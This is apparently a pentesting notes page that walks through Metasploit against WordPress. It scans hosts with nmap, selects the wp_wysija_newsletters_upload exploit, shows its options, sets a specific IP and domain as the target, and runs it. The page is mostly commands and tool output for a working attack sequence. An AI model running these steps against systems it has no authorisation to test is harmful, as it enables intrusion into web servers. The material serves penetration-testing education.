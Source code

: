 ```yaml
---
title: Metasploit
section: pentesting
---
```


The <dfn>Metasploit</dfn> Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

## WordPress

### Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![][image-1]

#### Scan an Entire Network

-   This will save the results to the Metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

-   `hosts` will list all the hosts found by `nmap`.
-   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![][image-2]

### Use an Exploit

-   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

-   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![][image-3]

-   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

-   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```

[image-1]: ../assets/pentesting/metasploit/575CF62D4C7E18CFD40566EA08E7D588.png

[image-2]: ../assets/pentesting/metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png

[image-3]: ../assets/pentesting/metasploit/67A7D5964C96C63BA11EEA707CB4A604.png
